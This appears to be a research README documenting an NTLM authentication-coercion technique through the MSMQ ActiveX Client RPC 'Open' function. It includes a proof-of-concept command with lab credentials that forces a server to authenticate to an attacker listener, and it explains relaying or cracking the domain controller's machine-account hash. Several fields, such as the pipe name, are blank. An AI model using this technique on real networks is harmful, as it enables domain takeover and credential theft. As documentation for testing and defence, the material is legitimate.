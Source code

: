 # MC-MQAC - Remote call to Open (opnum 34)

## Summary

+ **Protocol**: [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d)

+ **Protocol UUID**: 0fb15084-af41-11ce-bd2b-204c4f4f5020

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`Open`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368)

+ **Function operation number**: `34`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol (with uuid `0fb15084-af41-11ce-bd2b-204c4f4f5020` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) and allows to call RPC functions of this protocol. We will then call the remote [`Open`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Open('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Open(
   [in] long Access,
   [in] long ShareMode,
   [out, retval] IMSMQQueue4** ppq
 );
```

## References

+ Documentation of protocol [MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d

+ Documentation of function `Open`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368